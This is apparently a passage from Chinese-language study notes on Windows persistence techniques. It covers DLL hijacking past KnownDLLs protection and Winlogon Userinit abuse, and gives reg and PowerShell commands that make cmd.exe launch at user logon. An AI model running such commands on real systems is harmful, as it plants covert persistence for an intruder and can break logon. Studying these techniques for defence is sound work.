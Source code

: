 在win7及win7以上系统增加了KnownDLLs保护，需要在如下注册表下添加dll才能顺利劫持：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

[DLL劫持原理及其漏洞挖掘（一）](https://www.anquanke.com/post/id/225911)

# 0x5.Winlogon用户登录初始化

winlogon.exe是windows中非常重要的进程,在用户还没登录系统之前就已经存在,并与密码验证相关的重要任务精密相关。例如，当在用户登录时，Winlogon 进程负责将用户配置文件加载到注册表中:

```
HKLM\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
```

命令行:

```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"  /v "Userinit" /t REG_SZ /d "C:\Windows\system32\cmd.exe," /f
```

powershell：

```
Set-ItemProperty   "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name   Userinit -value "C:\Windows\system32\userinit.exe,C:\Windows\system32\cmd.exe"
```

![image-20220308184001989](Windows权限维持学习/image-20220308184001989.png)
